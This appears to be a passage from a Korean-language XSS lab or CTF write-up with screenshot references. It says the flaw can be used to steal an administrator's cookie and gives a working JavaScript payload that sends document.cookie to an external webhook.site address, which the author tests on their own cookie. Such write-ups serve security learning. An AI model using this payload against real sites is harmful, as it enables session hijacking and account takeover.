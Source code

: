 - 이를 이용하여 관리자의 쿠키를 탈취할 수 있다.

![xss2 payload](./screenshots/xss2_payload.png)

```js
');new Image().src='https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie='+document.cookie//
```

- 위 페이로드를 이용해 직접 본인의 쿠키가 외부 서버(Webhook)로 전송되는지 확인 테스트를 수행하였다. 

**결과:**

![xss2 payload](./screenshots/xss2_me_cookie.png)
